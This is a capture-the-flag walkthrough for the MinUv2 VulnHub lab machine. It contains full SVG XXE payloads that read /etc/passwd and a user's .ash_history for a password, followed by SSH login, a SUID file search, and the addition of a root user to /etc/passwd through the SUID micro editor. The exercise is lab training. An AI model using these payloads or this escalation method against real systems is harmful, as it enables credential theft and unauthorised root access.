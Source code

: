 MinUv2

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Contente Discovery - searching for a specific file .html
[+] SVG exploitation with XXE
[+] Getting credentials from ash_history
[+] Privilege Escalation with micro editor -> adding user to /etc/passwd

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.110
Host is up (0.00037s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 82:33:25:61:27:97:ea:4a:49:f5:76:a3:33:1c:ae:2b (RSA)
|   256 ed:ca:f6:b9:b5:39:32:89:d0:a3:36:94:82:04:4a:e8 (ECDSA)
|_  256 26:79:15:2e:be:93:02:41:04:c9:ea:e8:05:16:d1:83 (ED25519)
3306/tcp open  mysql?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain
|     Transfer-Encoding: chunked
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     X-Powered-By: Kemal
|     Content-Type: text/html
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <style type="text/css">
|     body { text-align:center;font-family:helvetica,arial;font-size:22px;
|     color:#888;margin:20px}
|     max-width: 579px; width: 100%; }
|     {margin:0 auto;width:500px;text-align:left}
|     </style>
|     </head>
|     <body>
|     <h2>Kemal doesn't know this way.</h2>
|_    <svg id="svg" version="1.1" width="400" height="400" viewBox="0 0 400 400" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" ><g id="svgg"><path id="path0" d="M262.800 99.200 L 262.800 150.400 265.461 150.400 L 268.121 150.400 267.864 144.300 C 267.722 140.945,267.510 120.110,267.391 98.000 C 267.273 75.890,267.074 55.595,266.948 52.900 L 266.719 48.000 264.760 48.000 L 262.800 48.000 262.800 99.200 M160.800 290.800 C 160.800 291.301,161.224 291.301,162.000
|_mysql-info: ERROR: Script execution failed (use -d to debug)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Dirb http://192.68.56.110:3306

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# dirb http://192.168.56.110:3306 -X .html


-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Nov  5 09:22:57 2019
URL_BASE: http://192.168.56.110:3306/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.html) | (.html) [NUM = 1]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.110:3306/ ----
+ http://192.168.56.110:3306/upload.html (CODE:200|SIZE:908)                   
                                                                               
-
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We can upload a SVG file
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/MinU/min1.png)

SVG XXE AttacK
https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat file.svg 
<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="500px" height="40px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">&xxe;</svg>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Uploading the file to the server and we get the content of /etc/passwd

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/MinU/min2.png)


Retrieving employee .ash_history

Payload:


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat getConent.svg 
<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///home/employee/.ash_history" > ]><svg width="500px" height="40px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">&xxe;</svg>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After upoading we get the password

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/MinU/min3.png)

Connecting to the server:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh employee@192.168.56.110
The authenticity of host '192.168.56.110 (192.168.56.110)' can't be established.
ECDSA key fingerprint is SHA256:yDEwMAaye9gQ8q+xTLQxriV2ww9YRUYoGqvsqtXbskI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.110' (ECDSA) to the list of known hosts.
employee@192.168.56.110's password: 
        _                   ____  
  /\/\ (_)_ __  /\ /\__   _|___ \ 
 /    \| | '_ \/ / \ \ \ / / __) |
/ /\/\ \ | | | \ \_/ /\ V / / __/ 
\/    \/_|_| |_|\___/  \_/ |_____|


minuv2:~$ id
uid=1000(employee) gid=1000(employee) groups=1000(employee)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
minuv2:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/micro
/bin/bbsuid
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We are going to use micro (editor) to get root on the system
This is basic privilege escalation with editor. In ordet to escalate the privileges we edit /etc/passwd by adding a user:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# openssl passwd -1 -salt SALT admin123
$1$SALT$bvxkiSQK0rSue1A6i7lUj0



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Create a record in /etc/passwd and add the following user into it:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
setrus:$1$SALT$bvxkiSQK0rSue1A6i7lUj0:0:0:root:root:/bin/ashh
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Opening /etc/passwd with micro

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
minuv2:~$ cat /etc/passwd | micro

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Adding the user test into /etc/passwd

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/MinU/min4.png)

Privilege escalation to root

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
minuv2:~$ su setrus
Password: 
minuv2:/home/employee# id
uid=0(root) gid=0(root) groups=0(root)
minuv2:/home/employee# cd /root
minuv2:~# ls
flag.txt
minuv2:~# cat flag.txt
        _                   ____  
  /\/\ (_)_ __  /\ /\__   _|___ \ 
 /    \| | '_ \/ / \ \ \ / / __) |
/ /\/\ \ | | | \ \_/ /\ V / / __/ 
\/    \/_|_| |_|\___/  \_/ |_____|

# You got r00t!

 flag{6d696e75326973617765736f6d65}

# I hope you had fun hacking this box, I tried to design this VM to be (a bit) different
# by having newer or not-so-common technologies and a minumal linux install.
#
# Please don't post the content below on Social Networks to let others do the challenge.
#
# As you know by now, the entry point is an XXE vulnerability that can be exploited by
# modifying an image. After that you can enumerate a user and the linux version to know
# that it uses a different file in its home dir.
# To read this you used a suspicious file permission on certain text editor.
# At least that's how it was planned ;)
# Let me know if you got here using another method!
#
# contact@8bitsec.io
# @_8bitsec

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


